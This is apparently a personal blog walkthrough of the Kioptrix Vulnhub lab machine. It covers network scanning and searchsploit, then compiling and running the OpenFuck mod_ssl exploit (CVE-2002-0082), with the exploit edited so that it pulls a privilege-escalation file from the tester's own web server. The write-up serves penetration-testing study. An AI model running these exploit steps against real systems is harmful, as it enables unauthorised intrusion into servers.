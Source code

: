 ```yaml
---
published: true
---
```

Vulnhub virtual machine; On the path to OSCP this box offered Apache/OpenSSL vulnerability which led to a custom version of the exploit and an environmental problem and solution. 


----------

Legal Usage:
*The information provided by executeatwill is to be used for educational purposes only. The website creator and/or editor is in no way responsible for any misuse of the information provided. All the information on this website is meant to help the reader develop penetration testing and vulnerability aptitude to prevent attacks discussed. In no way should you use the information to cause any kind of damage directly or indirectly. Information provided by this website is to be regarded from an “*[*ethical hacker*](https://www.dictionary.com/browse/ethical-hacker)*” standpoint. Only preform testing on systems you OWN and/or have expressed written permission. Use information at your own risk.*

*By continued reading, you acknowledge the aforementioned user risk/responsibilities.*


----------


# Initial setup:

This boot-2-root box is on the legacy side of things and there are a few things that need to be accomplished before you are able to boot this image (virtual box)


1. add Kioptix vmdk harddrive to storage as IDE (this box does NOT like SATA - will kernel panic)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363040523_image.png)



2. disable audio

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363076710_image.png)

3. change network adapter to PCnet-PCI II (AM79C970A) && Attached to Adapter

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363130573_image.png)



4. disable usb

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363207273_image.png)


With this configuration you should be able to properly boot the box.



----------

# Enumeration

Searching for target:

    netdiscover -r 192.168.56.0/24

*target looks to be 192.168.56.103*

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363591282_image.png)


Perform NMAP scan:

    nmap -sC -sV -oA nmap/kio1 192.168.56.103

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550363637960_image.png)


*interesting to note that we have quite a few ports to examine.*

Since this is an older box lets search for any open vulnerabilites pertaining to the Apache and its mod_ssl 2.8.4 OpenSSL.

searchsploit

    searchsploit mod_ssl

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550364708694_image.png)


interesting candidate: *Apache mod_ssl < 2.8.7 OpenSSL - 'OpenFuckV2.c' Remote Buffer Overflow* 

Based off the CVE: 2002-0082
There is a vulnerability pertaining to session cache code that fails to initialize memory using a special function that allows for a buffer overflow to execute arbitrary code. 

source: https://nvd.nist.gov/vuln/detail/CVE-2002-0082

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365003778_image.png)


# Exploit
Copy the exploit locally:

    searchsploit -m exploits/unix/remote/764.c

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365139174_image.png)


view source:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365290795_image.png)


*search for any random shell code and/if replace if needed.*

compile source code:

    gcc -o exploit 764.c -lcrypto

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550365592122_image.png)


*looks to be missing some dependencies.*

correction: above exploit requires updating and can be correctly found at this repository. 

    git clone https://github.com/heltonWernik/OpenFuck.git

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550367827580_image.png)


download teh ptrace-kmod.c && start python SimpleHTTPServer in directory of file.

edit the external link at line 671


![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369200447_image.png)


install dependencies:

    apt-get install libssl-dev

compile:

    gcc -o OpenFuck OpenFuck.c -lcrypto

Run exploit:

    ./OpenFuck

*Search for which service you are attempting to exploit. Use the following syntax to continue.*

    ./OpenFuck 0x6b \[Target Ip\] [port] -c 40

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368047575_image.png)


Running exploit against box:

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550368200111_image.png)

    ./OpenFuck 0x6a 192.168.56.103 443 -c 50

![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550369571756_image.png)


*hung awaiting the race condition of the exploit. Good to see the exploit be pulled from the SimpleHTTPServer.*

# Root - Plot Shift

change of plans: 
Reverted back to website which I know it wont be able to be reached. At that point I performed the steps manually to change the term and get a bash shell.


    TERM=xterm; export TERM=xterm; exec bash -i
![](https://d2mxuefqeaa7sj.cloudfront.net/s_CE01D670F53ABAFF66E89458B46E1D05E4D324802D4F23554DB6E2BAEB0EC034_1550370436781_image.png)


bring me the root!
